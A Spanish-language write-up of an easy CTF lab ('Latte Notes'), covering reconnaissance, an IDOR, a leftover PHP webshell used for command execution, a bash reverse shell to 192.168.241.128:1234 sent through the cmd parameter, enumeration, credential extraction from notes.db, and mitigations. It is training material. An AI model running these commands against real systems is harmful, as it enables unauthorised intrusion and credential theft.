## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

## Técnicas usadas

- Escaneo de puertos y detección de servicios (Nmap)
- Fuzzing de directorios y archivos (dirsearch)
- IDOR (Insecure Direct Object Reference) en `view_note.php`
- Descubrimiento de webshell residual expuesta (`test.php`)
- Ejecución remota de comandos (RCE) mediante parámetro `cmd`
- Obtención de reverse shell y estabilización de TTY
- Enumeración de permisos SUID y archivos con permisos de escritura
- Extracción y análisis de base de datos SQLite (`notes.db`)
- Explotación de permisos de directorio mal configurados (world-writable)

---

## 1. Reconocimiento

Escaneo inicial de puertos:

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



Escaneo de versión sobre el puerto abierto:

```
nmap -p 80 -sC -sV -oN allports 172.17.0.2
```



Solo hay un servicio web expuesto (Apache 2.4.54 sobre Debian), por lo que toda la superficie de ataque se centra en la aplicación PHP "Latte Notes".

---

## 2. Enumeración

La página principal muestra un espacio de notas sobre café con un botón de login y un listado de "Notas Recientes":

```
http://172.17.0.2/
```



Revisando el código fuente se observa que las notas se referencian por `id` a través de `view_note.php?id=X`, y que en el listado público solo aparecen los IDs 1, 3 y 5:

```
view_note.php?id=1  → Receta de Latte (alice)
view_note.php?id=3  → Café del día (bob)
view_note.php?id=5  → Actualización (admin)
```

Se probó login básico y una inyección SQL simple sin éxito:

```
http://172.17.0.2/login.php

admin / admin        → Nada
admin' OR '1 / admin  → Nada
```

**IDOR en `view_note.php`**

Al no haber control de acceso sobre el parámetro `id`, se probaron IDs no listados públicamente (2, 4, 6), revelando notas privadas de otros usuarios que no deberían ser accesibles sin autenticación:

```
http://172.17.0.2/view_note.php?id=2   → "Revisar archivos en directorio uploads"
```



```
http://172.17.0.2/view_note.php?id=4   → "Sistema configurado con PHP en modo desarrollo"
```



```
http://172.17.0.2/view_note.php?id=6   → "Directorio uploads contiene archivos de testing antiguos"
```



Estas notas filtran información operativa clave: apuntan a un directorio `/uploads` con archivos de pruebas antiguos pendientes de eliminar. Se lanza `dirsearch` sobre ese directorio:

```bash
dirsearch -u http://172.17.0.2/uploads --exclude-status 403,404,500 -e php,txt,html
```



Se localiza una webshell de desarrollo olvidada en producción: `uploads/test.php`.

---

## 3. Explotación

Se comprueba que `test.php` ejecuta comandos del sistema a través del parámetro `cmd`:

```
http://172.17.0.2/uploads/test.php?cmd=id
```



Confirmada la ejecución remota de comandos, se prepara un listener y se lanza una reverse shell:

```bash
nc -lvnp 1234
```

```
http://172.17.0.2/uploads/test.php?cmd=bash -c 'bash -i %26>/dev/tcp/192.168.241.128/1234 <%261'
```



Estabilización de la TTY:

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

---

## 4. Escalada

Ya con shell interactiva se enumera el sistema en busca de vectores de escalada de privilegios:

```
www-data@latte_notes:/var/www/html/uploads$ whoami
```



```
www-data@latte_notes:/var/www/html/uploads$ grep bash /etc/passwd
```



```
www-data@latte_notes:/var/www/html/uploads$ sudo -l
```



Búsqueda de binarios SUID (sin hallazgos explotables):

```
find / -perm -4000 -type f 2>/dev/null
```



Búsqueda de archivos con permisos de escritura, que revela todo el código fuente de la aplicación como escribible por `www-data`:

```
find / -writable -type f 2>/dev/null | grep -v proc
```



Se extrae y revisa la base de datos SQLite `notes.db`, obteniendo el esquema de tablas `notes` y `users`, y credenciales de los usuarios (admin, bob, alice) almacenadas junto a las notas:

```
cat /var/www/html/notes.db
```



También se recupera un backup con información de estructura interna del servidor:

```
cat /var/www/html/uploads/backup_alice.txt
```

```
Sistema: Latte Notes v1.2
Usuario: alice
Última actualización: 2026-01-10
...
Archivos pendientes de limpieza:
- test.php (archivo de desarrollo antiguo)
```



Al inspeccionar el directorio padre `/var/www`, se detecta que tiene permisos `777` (world-writable) y que `flag.txt` es propiedad de `root` pero legible por cualquier usuario debido a esa mala configuración de permisos, por lo que **no fue necesaria una escalada de privilegios real** para leer la flag:

```
www-data@latte_notes:/var/www$ ls -la
```



---

## 5. Flags

```
www-data@latte_notes:/var/www$ cat flag.txt
```



---

## Resumen de Ataque

1. Se enumeró la aplicación web "Latte Notes" y se detectó un **IDOR** en `view_note.php`, que permitió leer notas privadas no listadas públicamente.
2. Una de esas notas filtró la existencia de un directorio `/uploads` con archivos de testing antiguos.
3. Fuzzing sobre `/uploads` reveló una **webshell de desarrollo olvidada** (`test.php`) que permitía **RCE** sin autenticación a través del parámetro `cmd`.
4. Se obtuvo una **reverse shell** como `www-data` y se estabilizó la TTY.
5. La enumeración post-explotación no encontró binarios SUID explotables ni entradas de `sudo`, pero sí un **directorio `/var/www` con permisos 777**, lo que permitió leer `flag.txt` (propiedad de root) directamente sin necesidad de escalar privilegios.
6. Adicionalmente se extrajeron credenciales de usuarios desde la base de datos SQLite `notes.db`, expuesta con permisos de escritura para `www-data`.

**Cadena de ataque:** IDOR → Filtración de ruta interna → Descubrimiento de webshell → RCE → Reverse shell → Permisos de directorio mal configurados → Flag

## Medidas de Mitigación

- **Corregir el IDOR:** validar en `view_note.php` que el usuario autenticado tiene permiso sobre la nota solicitada (control de acceso a nivel de objeto), en lugar de confiar únicamente en el parámetro `id`.
- **Eliminar archivos de desarrollo en producción:** `test.php` es una webshell de pruebas que nunca debió desplegarse; se debe auditar y limpiar el directorio `/uploads` antes de cada despliegue.
- **Restringir la ejecución de comandos del sistema:** eliminar cualquier endpoint que ejecute comandos arbitrarios (`shell_exec`, `system`, `exec`) accesibles desde parámetros HTTP; si es imprescindible, aplicar listas blancas estrictas y autenticación.
- **Corregir permisos de archivos y directorios:** `/var/www` no debería tener permisos `777`; debe restringirse a los mínimos necesarios (por ejemplo `750`) y `flag.txt`/archivos sensibles no deben ser legibles por el usuario del servicio web.
- **No almacenar contraseñas en texto claro:** la base de datos `notes.db` almacena credenciales sin hash; deben aplicarse algoritmos de hash robustos (bcrypt/argon2) y salting.
- **Restringir permisos de escritura del proceso PHP:** el usuario `www-data` no debería poder escribir sobre el propio código fuente de la aplicación (`config.php`, `*.php`), lo que facilita persistencia y manipulación del código en caso de compromiso.
- **Principio de menor privilegio:** revisar de forma periódica los binarios SUID y la configuración de `sudo` para detectar vectores de escalada, aunque en este caso no se hayan encontrado explotables.

